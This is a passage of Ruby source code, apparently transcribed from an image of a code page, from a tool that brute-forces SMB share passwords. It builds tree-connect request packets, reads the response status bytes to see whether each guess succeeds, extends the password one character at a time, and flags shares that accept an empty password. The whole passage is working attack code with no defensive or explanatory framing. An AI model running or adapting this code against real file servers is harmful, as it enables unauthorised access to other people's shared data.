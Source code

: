         end

      rescue IOError, SocketError, SystemCallError => e
        puts e.message
        puts e.backtrace.inspect
        exit(-1)
      end
    }


    #Start brute-forcing the password
    shares.each { |share|
      next_share = FALSE
      share = share.delete("\000")
      #puts  share.length

      nbs_length = 0x33 + share.length
      length0 = 0x01
      length1 = 0x00
      byte_count0 = 0x08 + share.length
      byte_count1 = 0x00
      password = [0x20]   #TODO skip lowercase letters

      puts "Brute-forcing password for share: " + share

      while true
        begin

          packet = update_password(tree_connect_request_path_password,nbs_length, length0, length1,
                                   byte_count0, byte_count1,password,share)
          debug_puts "Packet updated"
          response = send_and_receive(socket,packet)

          if ((response.first[9].unpack('C') +
              response.first[10].unpack('C') +
              response.first[11].unpack('C') +
              response.first[12].unpack('C'))[0] == 0) then

            debug_puts 'Auth success, trying next char'

            if (password[0] ==0x20 and password[1]==0x20)
              puts "Empty password works!\n\n"
              next_share=TRUE
              break
            end

            length0 = length0 + 1
            nbs_length = nbs_length + 1
            byte_count0 = byte_count0 + 1

            password.push(0x20)

            tid = response.first[28..29]
            debug_puts "New tree ID TID !"
            debug_hex_dump(hex,tid)


            packet = update_tid(tree_disconnect, tid)
            response = send_and_receive(socket,tree_disconnect)
